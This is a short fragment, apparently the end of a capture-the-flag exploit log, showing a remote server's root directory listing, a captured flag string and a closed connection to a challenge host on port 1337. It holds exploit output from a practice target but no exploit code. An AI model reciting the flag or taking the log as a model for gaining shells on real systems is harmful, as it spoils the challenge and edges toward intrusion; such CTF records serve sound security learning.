drwxrwxrwt   8 root root  4096 Aug 15 10:17 tmp
drwxr-xr-x  10 root root  4096 Jun 19 23:49 usr
drwxr-xr-x  13 root root  4096 Jun 19 23:52 var
lrwxrwxrwx   1 root root    27 Aug 11 06:11 vmlinuz -> boot/vmlinuz-4.4.0-1030-aws
lrwxrwxrwx   1 root root    27 Aug  4 06:56 vmlinuz.old -> boot/vmlinuz-4.4.0-1028-aws

flag{32ee124c49e3de4555b0f1c063539ef0}
[*] Closed connection to echo.stillhackinganyway.nl port 1337
```
